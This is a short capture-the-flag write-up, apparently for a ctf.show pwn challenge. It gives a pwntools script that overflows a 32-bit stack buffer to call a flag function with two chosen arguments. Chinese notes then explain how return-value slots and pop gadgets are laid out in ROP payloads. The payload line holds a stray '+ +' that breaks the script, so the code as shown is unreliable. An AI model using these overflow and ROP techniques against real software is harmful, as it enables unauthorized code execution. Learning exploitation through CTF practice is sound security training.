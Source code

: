 









```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28257)
flag = 0x08048586
fp = 876  # first_parameter
sp = 877  # second_parameter
payload = cyclic(0x6C + 0x4) + p32(flag) + + p32(0) + p32(fp) + p32(sp)
r.sendline(payload)
r.interactive()
```

> 参数顺序
> 32位中先写函数，再写参数【参数可能是返回值，如调用system，需要多加个参数作返回值】【8月10日更改，做了这么多题，发现32bit的payload中，最后一个函数如果需要参数那么都需要多加一个参数作返回值】【8月12日补充，又做一些题，进一步明白，每个函数都有返回值，而我们对函数返回值不感兴趣【比如一些函数执行成功会返回1】只需要有个位置充当一下，而之前对于多个函数的解释也进一步得以优化，其应该是需要返回值的，只不过位置正好被其他的东西给占据了，如pop_这些用于给参数位置的rop链给一举两得给占据了，也就是说，即使是最后一个函数有参数，也不用在单独写一个p32(0)来填充返回值的位置，因为pop_已经将这件事给做了 ，例如payload = cyclic(0x2c + 4) + p32(func1) + p32(func2) + p32(pop_ebx) + p32(0xACACACAC) + p32(flag) + p32(pop_ebx) + p32(0xBDBDBDBD)

